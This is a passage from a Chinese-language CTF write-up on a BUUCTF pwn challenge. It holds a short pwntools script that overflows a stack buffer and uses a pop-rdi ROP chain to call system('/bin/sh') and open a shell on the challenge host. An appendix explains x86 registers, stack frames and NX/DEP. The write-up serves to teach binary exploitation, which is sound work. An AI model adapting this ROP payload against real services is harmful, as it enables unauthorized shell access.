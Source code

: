exp如下：

```python
from pwn import *
p=remote('node4.buuoj.cn',27195)
binsh=0x0600A90
system=0x04004C0
pop_rdi=0x04006b3
payload = 'a'*0x88 +p64(pop_rdi) + p64(binsh) + p64(system) 
p.send(payload)
p.interactive()
```

成功溢出：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/stack/stack22.png?x-oss-process=style/watermark" style="zoom:80%;" />

如果不成功，是因为64位系统需要栈对齐，在system函数前加个ret指令地址就可以。（详细见附录）

# 附录：

## 1、寄存器

**一般寄存器:AX、BX、CX、DX。** AX:累积暂存器，BX:基底暂存器，CX:计数暂存器，DX:资料暂存器
**索引暂存器:SI、DI**。 SI:来源索引暂存器，DI:目的索引暂存器
**堆叠、基底暂存器:SP、BP**。 SP:堆叠指标暂存器，BP:基底指标暂存器

EAX、ECX、EDX、EBX：为ax,bx,cx,dx的延伸，各32位元
ESI、EDI、ESP、EBP：为si,di,sp,bp的延伸，32位元
eax, ebx, ecx, edx, esi, edi, ebp, esp等都是X86 汇编语言中CPU上的通用寄存器的名称，是32位的寄存器。如果用C语言来解释，可以把这些寄存器当作变量看待。比方说：add eax,-2 ; //可以认为是给变量eax加上-2这样的一个值。

这些32位寄存器有多种用途，但每一个都有“专长”，有各自的特别之处。
EAX 是"累加器"(accumulator), 它是很多加法乘法指令的缺省寄存器。
EBX 是"基地址"(base)寄存器, 在内存寻址时存放基地址。
ECX 是计数器(counter), 是重复(REP)前缀指令和LOOP指令的内定计数器。
EDX 则总是被用来放整数除法产生的余数。
ESI/EDI分别叫做"源/目标索引寄存器"(source/destination index),因为在很多字符串操作指令中, DS:ESI指向源串,而ES:EDI指向目标串.
EBP是"基址指针"(BASE POINTER), 它最经常被用作高级语言函数调用的"框架指针"(frame pointer). 在破解的时候,经常可以看见一个标准的函数起始代码:
　　push ebp ;    将当前ebp的地址压入栈顶，方便函数栈帧在回收的时候找回原来的位置（保存当前ebp）
　　mov ebp,esp ;     将当前的ebp移动到当前esp的位置 
　　sub esp, xxx ;    将当前的esp往低地址处移动XXX的空间 （为函数开辟适当的空间）
　　...
　　这样一来,EBP 构成了该函数的一个框架, 在EBP上方分别是原来的EBP, 返回地址和参数. EBP下方则是临时变量. 函数返回时作 mov esp,ebp/pop ebp/ret 即可。ESP 专门用作堆栈指针，被形象地称为栈顶指针，堆栈的顶部是地址小的区域，压入堆栈的数据越多，ESP也就越来越小。在32位平台上，ESP每次减少4字节。

## 2、NX

NX（DEP）(数据执行保护 Data Execution Prevention)。NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。

DEP特性需要硬件页表机制来提供支持。X86 32位架构页表上没有NX(不可执行）位，只有X86 64位才支持NX位。 Linux在X86 32位CPU没有提供软件的DEP机制，在64位CPU则利用NX位来实现DEP（当前Linux很少将该特性说成DEP)。
